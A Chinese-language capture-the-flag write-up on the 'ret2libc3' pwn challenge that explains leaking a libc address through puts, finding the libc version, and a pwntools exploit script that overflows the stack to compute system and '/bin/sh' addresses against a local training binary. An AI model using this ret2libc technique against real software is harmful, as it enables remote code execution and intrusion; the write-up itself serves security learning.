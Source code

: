 然后，我们需要获取 libc 的版本才能得到 libc 基地址。如何能够用一个函数真实地址得到版本或者基地址呢？

aslr 技术，是地址随机化，虽然是地址随机化，但低十二位是不变的，因为需要内存页对齐，puts 函数的真实地址 0xf7d54360 的低十二位是 150

可以根据后十二位查到这个函数所在的 libc 的版本：[libc\_search](https://libc.blukat.me/)

找到了很多各版本！那就只能多试一下！或者将上面的程序重新运行一下，找\_\_libc\_start\_main 的真实地址

```bash
puts_got_addr = e.got['puts']
#改成
puts_got_addr = e.got['__libc_start_main']
#其他的不需要动，当然可以更改变量名称
```

```bash
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ python ret2libc3.py 
[+] Starting local process './ret2libc3': pid 76030
[*] '/home/qufeng/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0xf7dc3550
[*] Stopped process './ret2libc3' (pid 76030)
```

这个网站再查询一下，变成 2 条结果了，不过这两条结果的偏移量是一样了 (不贴图了)

接下来根据公式得到了 system 函数的偏移量和/bin/sh 的偏移量 (即 str\_bin\_sh)，构造 payload，拿到 shell

手工太麻烦了，我们使用工具：[LibcSearcher](https://github.com/lieanu/LibcSearcher)

安装：

```bash
git clone https://github.com/lieanu/LibcSearcher.git
cd LibcSearcher
python setup.py develop
```

使用查看 readme

构造最终 exp（这里选择了找\_\_libc\_start\_main 真实地址）

```bash
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *

p = process('./ret2libc3')
e = ELF('./ret2libc3')
context.log_level = 'debug'

main_got_addr = e.got['__libc_start_main']   
puts_plt_addr = e.plt['puts']  
main = e.symbols['main']        

payload = flat(['A' * 112, puts_plt_addr, main, main_got_addr])

p.sendlineafter('Can you find it !?', payload)  

main_rel_addr = u32(p.recv()[0:4])  
print hex(main_rel_addr)

libc = LibcSearcher('__libc_start_main', main_rel_addr)
libcbase = main_rel_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')
print hex(binsh_addr)
```